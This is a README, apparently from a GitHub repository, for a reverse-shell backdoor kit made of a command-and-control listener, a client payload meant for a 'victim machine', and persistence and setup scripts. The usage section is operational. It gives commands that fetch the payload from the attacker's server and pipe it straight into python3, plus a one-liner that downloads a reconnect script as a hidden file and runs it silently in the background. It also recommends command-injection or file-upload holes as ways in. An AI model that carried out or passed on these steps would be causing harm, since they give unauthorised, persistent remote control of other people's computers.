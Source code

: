 ### Description
By running one script on the attack machine and by injecting one command into the client's terminal - a backdoor will be deployed on the client machine opening up a reverse shell.

# Files in question

__server_shell.py__ [CNC - Command and Control script]
- => Runs on the server system.
- This file is to be ran on the CNC server system and listens for incoming connections made by an exploited machine via the client_payload script.
- Once a connected is established - this acts as a reverse shell and executes commands on the client system.

__client_payload.py__ [Reverse shell Backdoor]
- => Runs on the client syste,.
- This file initiates a connection from the host system to the CNC server machine (hacker machine).
- This is intended to be downloaded/executed on a victim machine.
- This file assumes python3 is installed.

__client_connect.sh__ [Client Helper script - BASH]
- => Runs on the client system.
- This file is a helper to the client_payload script.
- The goal here is to make sure if a connection is dropped - a new one will be re-initiated - allowing the CNC server to have realiable access to client machine.
- Write this as bash script so most of the commands here are directly communicating at the command line level.

___startup.sh__ [Helper script - BASH]
- => To run on server system
- Prints on screen-instructions asking for the ip/port details of the CMC server (hacker machine) and where the client_payload is to be hosted. 
- This scrpt also edits the client_payload.py, server_shell.py, and client_connect.sh to reflected the command line input.
- Finally, this script tells you exactly which commands to run on CNC server and client machine to initiate a reverse shell (backdoor) attack. 

# Usage

Note: With all methods - there needs to be a way to run a command on the client machine to kick-off the connection to the CNC server (hacker's machine).
There is more than one way to do this - but would be good to find a straight-forward vulnerability such a a command line injection if possible.

## Method 1: Startup Script [PREFERRED]

### On Hacking machine (CNC Server)
Run startup script
`bash startup.sh`

Then follow on screen instructions.


## Method 2: Manual
(works with cmd line injection)

- [SERVER] Host client_payload.py somehere
- - One option is to start a python web server on the cnc_server
- - `python3 -m http.server 8080`   
- [CLIENT] Download + Execute from client machine
- - `wget -O - <cnc_server_ip>:8080/client_payload.py | python3`
- [OPTIONAL] Once you have a connection to client from cnc server...
- - Download + Execute the client_connect.sh script (keeps reconnects the client if it disconnects)
- - CNC server could host the client_connect.sh script.
- - - This file must first be edited to match the host/port details you already have in use.
- - - `wget -q <cnc_server_ip>:8080/client_connect.sh &> /dev/null ;` 
- - - `bash client_connect.sh &> /dev/null & `
- - One-Liner
- - - `{ wget -q -O .c <cnc_server_ip>:8080/client_connect.sh ; } && { nohup bash .c &> /dev/null & }`
- - Make sure you exit from CNC server with 'exit' to disconnect properly.



## Method 3: Direct Client Access

- [SERVER] `python3 server_shell.py` <- edit the file to use the port you want or pass it in as an argument (default 8000). 
- [CLIENT] `python3 client_payload.py`<- edit the file to use the CNC server IP and port you want. 
- - Or pass them in as an argumenta (default port 8000)
- - `python3 client_payload.py <cnc_server_ip> <cnc_server_port>`


# Other ways to get client_payload.py on victim machine
You could also exploit a file upload vulnerability of aa web application and upload the client_payload file onto the victim's machine.
Just make sure you listen on sever and manage a way to run the client_payload.py script on the client machine.


### Port as an optional argument
Both client_payload and server_shell scripts communicate on port 8000 by default.
This can be changed to another port - but you would need to make sure both scripts have the same port..

